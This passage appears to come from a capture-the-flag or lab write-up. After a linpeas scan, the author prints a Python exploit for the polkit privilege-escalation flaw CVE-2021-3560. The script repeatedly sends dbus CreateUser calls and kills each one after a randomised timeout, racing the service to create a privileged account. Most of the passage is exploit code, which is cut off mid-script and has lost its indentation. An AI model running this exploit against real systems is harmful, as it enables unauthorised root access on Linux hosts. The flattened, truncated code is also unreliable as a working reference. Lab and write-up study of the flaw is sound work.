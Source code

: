 so after running linpeas i found and doing some digging i found out that there is  a python script that can execute the privillage escalations 

#### code-python script
```shell
import os

import sys

import time

import subprocess

import random

import pwd

print ("**************")

print("Exploit: Privilege escalation with polkit - CVE-2021-3560")

print("Exploit code written by Ahmad Almorabea @almorabea")

print("Original exploit author: Kevin Backhouse ")

print("For more details check this out: https://github.blog/2021-06-10-privilege-escalation-polkit-root-on-linux-with-bug/")

print ("**************")

print("[+] Starting the Exploit ")

time.sleep(3)

check = True

counter = 0

while check:

counter = counter +1

process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])

try:

#print('1 - Running in process', process.pid)

Random = random.uniform(0.006,0.009)

process.wait(timeout=Random)

process.kill()

except subprocess.TimeoutExpired:

#print('Timed out - killing', process.pid)

process.kill()

user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')

```